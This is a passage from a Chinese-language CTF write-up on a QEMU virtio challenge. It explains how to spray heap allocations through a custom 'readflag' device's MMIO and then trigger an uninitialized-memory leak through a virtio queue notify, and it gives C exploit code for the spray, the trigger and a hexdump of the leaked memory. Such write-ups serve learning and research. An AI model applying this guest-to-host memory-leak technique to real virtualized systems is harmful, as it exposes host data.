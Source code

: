 ```c
}
```



## notify触发漏洞

参考：

* [qvirtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio.c#L368)
* [virtqueue_kick](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L252)
* [virtqueue_setup](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L228)

映射readflag设备mmio内存，由大到小申请堆块（会不断切分合并堆块）将flag字符串留在堆内存中，而后通过信息泄露漏洞读出未初始化的内存，就有可能读到残留的flag。

```c
void spray() {
    for (size_t i = 0xffc; i > 0x20; i-=4)
        mmio_write32(readflag_mmio, i);
}

void hexdump(void *addr, size_t size){
    // dump 4 bytes per time
    for (size_t i = 0; i < size; i+=4) {
        uint32_t val = *(volatile uint32_t*)(addr+i);
        for (int j = 0; j < 4; j++) {
            uint8_t chr = (val >> (j*8)) & 0xff;
            if (chr >= 0x20 && chr <= 0x7e) {
                putchar(chr);
            } else {
                putchar('?');
            }
        }
    }
}

int main() {
    init_virtio();
    init_vring();

    readflag_mmio = mmio_init((void *)READFLAG_GVA, 0x1000, "/sys/devices/pci0000:00/0000:00:05.0/resource0");
    printf("[*] readflag_mmio: %p\n", readflag_mmio);

    uint16_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    uint32_t notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    for (size_t i = 0; i < 0x100; i+=4)
        spray();

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    hexdump((uint8_t *)virtio_mmio, 0x100);

    munmap((void *)dma_mem, 0x3000);
    munmap((void *)virtio_mmio, 0x4000);
    munmap((void *)readflag_mmio, 0x1000);

    return 0;
}
```
